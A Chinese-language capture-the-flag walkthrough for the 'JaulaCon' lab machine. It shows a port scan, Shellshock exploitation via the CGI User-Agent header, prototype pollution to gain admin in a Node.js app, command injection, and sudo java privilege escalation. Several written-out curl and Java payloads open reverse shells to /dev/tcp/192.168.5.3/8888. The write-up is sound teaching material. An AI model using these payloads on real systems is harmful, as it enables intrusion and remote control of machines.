 # JaulaCon

2025.03.08 https://thehackerslabs.com/jaulacon/

## Ip

192.168.5.40

## Scan

```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3333/tcp open  dec-notes
8080/tcp open  http-proxy
```

80 为静态 web，发现 2 个顾客的人名 Jamesh Dame 和 Jumini Kiri ，其他无可用信息。

3333 对应 Node.js，访问后直接跳转到登陆 http://192.168.5.40:3333/login 目前没有登陆用户名和密码，简单测试也不存在 sql 注入。

8080 显示 apache 页面，扫描出了 http://192.168.5.40:8080/cgi-bin/ :

```
dirb http://192.168.5.40:8080/

gobuster dir -t 100 -k -e -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt -u http://192.168.5.40:8080/cgi-bin/ -x sh,py,cgi,perl
```

这里找到 cgi 文件 http://192.168.5.40:8080/cgi-bin/agua.cgi 显示：

```
Test
Vulnerable
This is a test
```

像是有 shellshock，进行探测，证明存在：

```
curl -H 'User-Agent: () { :;}; echo; echo 1' http://192.168.5.40:8080/cgi-bin/agua.cgi
curl -H 'User-Agent: () { : ;}; echo; /bin/bash -c "echo 1"' http://192.168.5.40:8080/cgi-bin/agua.cgi
或者
nmap 192.168.5.40 -p 8080 --script=http-shellshock --script-args uri=/cgi-bin/agua.cgi
```

当 Bash<=4.3，bash 使用的环境变量是通过函数名称来调用的，以“(){”开头通过环境变量来定义的。而在处理这样的“函数环境变量”的时候，并没有以函数结尾“}”为结束，而是一直执行其后的 shell 命令。

然后执行反弹 shell 操作：

```
curl -H 'User-Agent: () { : ;}; echo; /bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' http://192.168.5.40:8080/cgi-bin/agua.cgi
```

或者使用另外一个漏洞利用库进行利用 https://github.com/nccgroup/shocker :

```
python2  ./shocker/shocker.py --Host 192.168.5.40 --port 8080 --command "/bin/cat /etc/passwd" --cgi /cgi-bin/agua.cgi
```

然后执行反弹命令，在 kali 上得到了反弹的 shell。先看到了这个 cgi 的源码：

```
www-data@ebe553aaa355:/var/www$ cat /usr/lib/cgi-bin/agua.cgi
#!/bin/bash

echo "Content-type: text/plain"
echo
echo
echo "Test"
echo
echo

# Vulnerable line
env x='() { :;}; echo Vulnerable' bash -c "echo This is a test"
```

进入系统后，发现是在 docker 容器中，有 .dockerenv 文件，但是没有任何特权，不能提权到宿主机。

发现隐藏文件 /opt/.credenciales : `Shellychosk:Portidrea345ñ` 可能是 ssh 或者是 3333 那个登陆页面的用户凭据。不是 ssh 的，是 3333 端口的。

登陆后，可以输入 url 下载文件，这里可能存在 SSRF。输入一个 http 请求，提示不是管理员，需要寻找提升到管理员的方法。

3333 对应的 web 服务是 Node.js 搭建的，可能存在 Prototype Pollution。利用过程如下：

1. 先使用上面的用户凭据登陆，然后获得 cookie 中的 admin_session 值:

```
curl -X POST -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=Shellychosk&password=Portidrea345ñ' http://192.168.5.40:3333/login -v

admin_session=e4ad770982de667ccfcb380c13a87bc30f0e1e91bca7a223ff9461345507672a4b4f255db1925f0bb06f1153496e3ecca34b28e168c42addeb094e7ea21ed2f2
```

2. 进行原型链污染，会返回 Forbidden:

```
curl -X POST -H 'Content-Type: application/json' -d '{"url":1,"__proto__":{"admin":"true","isAdmin":"true","isadmin":"true"}}' http://192.168.5.40:3333/admin/check_url -v
```

3. 再次访问 check_url，这时系统内部的属性已经变成 admin，执行后会显示 File Downloaded：

```
curl -X POST -b 'admin_session=e4ad770982de667ccfcb380c13a87bc30f0e1e91bca7a223ff9461345507672a4b4f255db1925f0bb06f1153496e3ecca34b28e168c42addeb094e7ea21ed2f2' -H 'Content-Type: application/json' -d '{"url":1,"__proto__":{"admin":"true","isAdmin":"true","isadmin":"true"}}' http://192.168.5.40:3333/admin/check_url -v
```

4. 执行命令验证(猜测目标机器上使用的是 Node.js 中的 exec 执行的系统命令，并且使用的是 wget url -O 这种形式进行的下载，url 现在可控，需要把前面和后面必合掉才能执行自己的命令)：

```
curl -X POST -b 'admin_session=e4ad770982de667ccfcb380c13a87bc30f0e1e91bca7a223ff9461345507672a4b4f255db1925f0bb06f1153496e3ecca34b28e168c42addeb094e7ea21ed2f2' -H 'Content-Type: application/x-www-form-urlencoded' --data-urlencode 'url=; ping -c 5 192.168.5.3 #' http://192.168.5.40:3333/admin/check_url -v
```

5. 执行反弹 shell

```
curl -X POST -b 'admin_session=e4ad770982de667ccfcb380c13a87bc30f0e1e91bca7a223ff9461345507672a4b4f255db1925f0bb06f1153496e3ecca34b28e168c42addeb094e7ea21ed2f2' -H 'Content-Type: application/x-www-form-urlencoded' --data-urlencode 'url=; /bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1" #' http://192.168.5.40:3333/admin/check_url -v
```

得到了反弹的 shell，在用户 jaula 下拿到了 user flag：

```
jaula@JaulaCon:~$ cat user.txt
3ac6640322d7d06957d3773fab3b27b7
```

sudo -l 显示 (root) NOPASSWD: /usr/bin/java 直接提权到 root：

创建 shell.java 文件：

```
public class shell {
    public static void main(String[] args) {
        ProcessBuilder pb = new ProcessBuilder("bash", "-c", "$@| bash -i >& /dev/tcp/192.168.5.3/8888 0>&1")
            .redirectErrorStream(true);
        try {
            Process p = pb.start();
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```

javac shell.java & java shell 在 kali 上监听 8888 得到反弹的 shell，读取到最终的 root flag：

```
root@JaulaCon:~# cat root.txt
bdc7c8e1ce71e0ebff2d76d9b58c9b74
```
